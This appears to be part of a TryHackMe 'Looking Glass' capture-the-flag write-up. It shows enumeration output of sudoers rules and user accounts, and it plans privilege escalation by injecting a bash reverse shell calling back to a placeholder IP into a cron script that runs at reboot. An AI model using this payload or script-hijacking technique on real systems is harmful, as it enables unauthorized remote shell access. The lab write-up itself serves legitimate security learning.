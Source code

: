 ```
Matching Defaults entries for jabberwock on looking-glass:                                                                                                           
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jabberwock may run the following commands on looking-glass:
    (root) NOPASSWD: /sbin/reboot
Sudoers file: /etc/sudoers.d/alice is readable
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash



╔══════════╣ Users with console
alice:x:1005:1005:Alice,,,:/home/alice:/bin/bash                                                                                                                     
humptydumpty:x:1004:1004:,,,:/home/humptydumpty:/bin/bash
jabberwock:x:1001:1001:,,,:/home/jabberwock:/bin/bash
root:x:0:0:root:/root:/bin/bash
tryhackme:x:1000:1000:TryHackMe:/home/tryhackme:/bin/bash
tweedledee:x:1003:1003:,,,:/home/tweedledee:/bin/bash
tweedledum:x:1002:1002:,,,:/home/tweedledum:/bin/bash

```

We observer the target is vulnerable to CVE-2021-4034. We can use metasploit to run the exploit and reliably obtain root. Given this is not the intended way of escalating privileges for the CTF, we'll explore other avenues. 

We observe there is a cron job to be performed at reboot to run `bash /home/jabberwock/twasBrillig.sh`as the `tweedledum` user. We can use this to laterally move to the `tweedledum` account by editing the `twasBrillig.sh` script to run a reverse shell. 

We observe that jabberwock may run the `/sbin/reboot` command as root with no password. Thus we have all the pieces requried to run the `twasBrillig.sh` reverse shell. 

We also observe that the user alice can run `/bin/bash` as root with no password on the host `ssalg-gnikool`. Likely useful for later and a way to get root once we have alice's account. 

Finally, we observe the following users on the system: `jabberwock`, `tweedledee`, `tweedledum`, `humptydumpt`, `alice`, `root` and `tryhackme`

### twasBrillig.sh reverse shell on reboot

Lets inject a reverse shell into `/home/jabberwock/twasBrillig.sh` as we know on a reboot the user account `tweedledum` is going to execute this script. 

Using either [PayloadsAllTheThings](https://gtfobins.github.io/gtfobins/bash/#reverse-shell) or [gtfobins](https://gtfobins.github.io/gtfobins/bash/#reverse-shell) we replace the `twasBrillig.sh` script with the following:

```
export RHOST=<YOUR-IP>
export RPORT=4242
bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
```
where `<YOUR-IP>` is the ip for the reserve shell to connect back to. You can identify this by running `ifconfig` in your bash terminal. It'll be the ip assocaited with the `tun0` VPN tunnel if you're connecting through that way. 
